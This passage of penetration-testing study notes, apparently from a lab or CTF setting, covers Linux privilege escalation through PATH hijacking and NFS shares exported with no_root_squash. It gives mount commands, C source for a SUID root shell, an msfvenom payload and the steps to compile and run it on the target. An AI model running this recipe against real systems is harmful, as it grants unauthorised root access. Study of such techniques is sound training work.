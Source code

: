 Add to PATH:
```bash
export PATH=/tmp:$PATH
```

add /bin/bash to the end file to be run

## NFS - Network File Sharing
Configuration is kept in:
```bash
/etc/exports
```
Created during install and can usually be read by users.

Look for **no_root_squash**

If it is an option on a writable share, we can create a executable with SUID bit set.

Steps:
1. Enumerate mountable shares:
```bash
showmount -e 10.0.2.12
```
2. Mount one with "no_root_squash" on attacking machine:
```bash
mkdir /tmp/attackingfolder
mount -o rw 10.10.132.76:/tmp /tmp/attackingfolder
```
3. Make executable that will run /bin/bash 
**DO THIS AS ROOT!, FILE NEEDS TO BE ROOT ROOT**
```c
int main()
{ setgid(0);
 setuid(0);
 system("/bin/bash");
 return 0;
}
```
Can also be done with msfvenom:
```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```
4. Compile
```bash
gcc nfs.c -o nfs -w
chmod +s nfs
ls -l nfs
```
5. On the target
```bash
id
whoami
ls -l
./nfs
id
whoami
```
